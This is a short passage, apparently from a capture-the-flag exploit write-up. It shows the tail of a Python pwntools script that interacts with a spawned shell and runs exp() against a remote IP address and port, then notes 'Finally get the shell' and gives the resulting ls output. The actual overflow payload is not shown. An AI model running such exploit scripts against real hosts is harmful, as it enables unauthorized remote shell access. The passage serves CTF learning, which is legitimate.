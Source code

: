 ```python
p.sendline (&#39;ls&#39;)
            data = p.recv()

            print data

            p.interactive()

            p.close()

        except Exception:

            p.close()

            continue





if __name__ == "__main__":

    exp('106.75.4.189', 35273)

```



Finally get the shell.


```python

$ ls
exp.py  gets

```
